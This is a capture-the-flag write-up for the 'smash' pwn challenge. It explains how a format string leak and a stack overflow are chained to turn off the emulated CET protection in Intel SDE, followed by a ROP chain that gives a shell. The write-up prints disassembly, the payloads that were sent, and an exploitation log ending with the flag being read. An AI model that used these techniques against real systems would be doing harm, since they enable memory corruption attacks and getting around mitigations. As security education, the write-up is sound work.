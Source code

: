 # smash (pwn 388p, 9 solved)

TL;DR

1. Leak locations of libc and stack by exploiting the format string vulnerability
2. Modify the CET configuration of the emulator by using the write primitive from the stack buffer overflow
3. Execute shell with ROP sequence from the stack buffer overflow

## Analysis

In the task we get:
* [64-bit Linux executable](smash) of the server application,
* libc shared library,
* "Software Development Emulator" from Intel that reports version "8.56.0 external" and
* the following loader script:
```
#!/bin/sh

cd `dirname $0`
echo "Now loading..."
env -i ./sde/sde64 -no-follow-child -cet -cet_output_file /dev/null -- ./smash
```

The server application includes two vulnerabilities that are easy to spot.

The first vulnerability is that unsanitized user input is passed as the format parameter when calling `__dprintf_chk` at 0x126B:
```
.text:122C                 lea     rsi, aInputName ; "Input name > "
.text:1233                 mov     edi, 1
.text:1238                 mov     eax, 0
.text:123D                 call    dprintf@plt
.text:1242                 mov     esi, 20h        ; read_size
.text:1247                 mov     edi, 0          ; buffer
.text:124C                 call    sub_12E7        ; read string
.text:1251                 mov     [rbp+user_input], rax
.text:1255                 mov     rax, [rbp+user_input]
.text:1259                 mov     rdx, rax        ; format
.text:125C                 mov     esi, 1
.text:1261                 mov     edi, 1
.text:1266                 mov     eax, 0
.text:126B                 call    __dprintf_chk@plt
```
An attacker could exploit this format string vulnerability to leak content of the application stack.

The second vulnerability is that subroutine `sub_12E7` allocates stack buffer of insufficient size when called at 0x1290 and 0x12C9:
```
.text:1286                 mov     esi, 38h        ; read_size
.text:128B                 mov     edi, 0          ; buffer
.text:1290                 call    sub_12E7        ; read string
.text:1295                 mov     [rbp+user_input], rax
.text:1299                 mov     rax, [rbp+user_input]
.text:129D                 movzx   eax, byte ptr [rax]
.text:12A0                 or      eax, 20h
.text:12A3                 cmp     al, 'y'
.text:12A5                 jnz     short l_message_done
.text:12A7                 lea     rsi, aInputMessage ; "\nInput message > "
.text:12AE                 mov     edi, 1
.text:12B3                 mov     eax, 0
.text:12B8                 call    dprintf@plt
.text:12BD                 mov     rax, [rbp+user_input]
.text:12C1                 mov     esi, 38h        ; read_size
.text:12C6                 mov     rdi, rax        ; buffer
.text:12C9                 call    sub_12E7        ; read string
.text:12CE l_message_done:
```
An attacker could exploit this stack buffer overflow vulnerability to overwrite the saved `rbp` and the return address.

However any attempts to change the return address via the stack buffer overflow vulnerability are unsuccessful.
This is because of the CET mitigation that protects integrity of the return addresses.
The protection is implemented as Intel processor feature using a dedicated shadow stack to record just the return addresses.
When executing "call" instruction, the processor pushes the return address on both the normal application stack and the shadow stack.
On "ret" instruction, values from both stacks are compared to detect any unexpected changes.

The challenge uses software to emulate CET feature, so we decided to check the internals of the emulator.
In particular we focused on checking how "Software Development Emulator" tracks the CET state in memory.
When reverse engineering, we started with the strings used for printing CET configuration and quickly identified the relevant data structure.
We learned that changing a few bits would be sufficient to disable CET in the emulator.

We also checked that even if the relevant data structure is located in the emulator heap, its offset from libc remains constant across runs.

## Exploitation

Our [exploit](exploit.py) works as follows.

### Step 1: Leak locations of libc and stack by exploiting the format string vulnerability

This is required for the two steps that follow.

### Step 2: Modify the CET configuration of the emulator by using the write primitive from the stack buffer overflow

In order to disable CET in the emulator we need to reset relevant field of CET configuration block.
The targeted data structure is located at fixed distance from libc.

We use a primitive to write zero bit at arbitrary address to perform this action.
For this we exploit the stack buffer overflow vulnerability in subroutine `sub_12E7` called at 0x1290, overwriting the saved `rbp` value before it is used later as the frame pointer at 0x1295.
This overwrites arbitrary memory location with an address of heap buffer.
Using the least significant bits of the heap pointer is sufficient as these are always zero.

### Step 3: Execute shell with ROP sequence from the stack buffer overflow

CET is disabled at this point and we are free to use any gadget to construct ROP chain here.

## Example

```
[+] Opening connection to pwn01.chal.ctf.westerns.tokyo on port 29246: Done
[DEBUG] Received 0xf bytes:
    b'Now loading...\n'
[*] Step 1: Leak locations of libc and stack by exploiting the format string vulnerability...
[DEBUG] Received 0xd bytes:
    b'Input name > '
[DEBUG] Sent 0x1b bytes:
    b'%p\t%p\t%p\t%p\t%p\t%p\t%p\t%p\t%p\t'
[DEBUG] Received 0x6a bytes:
    b'0x55f82a80f2c0\t0x55f82a80f2a0\t0xd\t(nil)\t0x55f82a80f2a0\t0x7ffd22f0b010\t0x55f829915216\t(nil)\t0x7fc48f3c50b3\t'
[DEBUG] Received 0xb bytes:
    b'\n'
    b'OK? [y/n] '
[*] stack_va = 7ffd22f0b010
[*] libc_start_main_va = 7fc48f3c50b3
[*] libc_va = 7fc48f39e000
[*] Step 2: Modify the CET configuration of the emulator by using the write primitive from the stack buffer overflow...
[*] target_va = 7fc5a3e14f90
[DEBUG] Sent 0x37 bytes:
    00000000  79 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │yAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  98 4f e1 a3  c5 7f 00                               │·O··│···│
    00000037
[*] Step 3: Execute shell with ROP sequence from the stack buffer overflow...
[DEBUG] Received 0x11 bytes:
    b'\n'
    b'Input message > '
[DEBUG] Sent 0x37 bytes:
    00000000  e0 fe 4d 8f  c4 7f 00 00  e1 fe 4d 8f  c4 7f 00 00  │··M·│····│··M·│····│
    00000010  e6 4c 48 8f  c4 7f 00 00  42 42 42 42  42 42 42 42  │·LH·│····│BBBB│BBBB│
    00000020  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    00000030  a8 af f0 22  fd 7f 00                               │···"│···│
    00000037
[DEBUG] Received 0x6 bytes:
    b'\n'
    b'Bye!\n'
[*] Switching to interactive mode
$ ls -la
total 8656
drwxr-x---  3 root smash    4096 Sep 20 03:46 .
drwxr-xr-x 11 root root     4096 Sep 21 10:04 ..
-rw-r-----  1 root smash      43 Sep 20 03:42 flag.txt
-rwxr-x---  1 root smash     128 Sep 20 03:42 run.sh
drwxr-xr-x  4 root smash    4096 Sep 12 14:44 sde
-rw-r-----  1 root smash 8826053 Sep 20 03:42 sde.tgz
-rwxr-x---  1 root smash   14464 Sep 20 03:42 smash
$ cat flag.txt
TWCTF{17_15_ju57_4n_3mul470r,n07_r34l_CET}
```
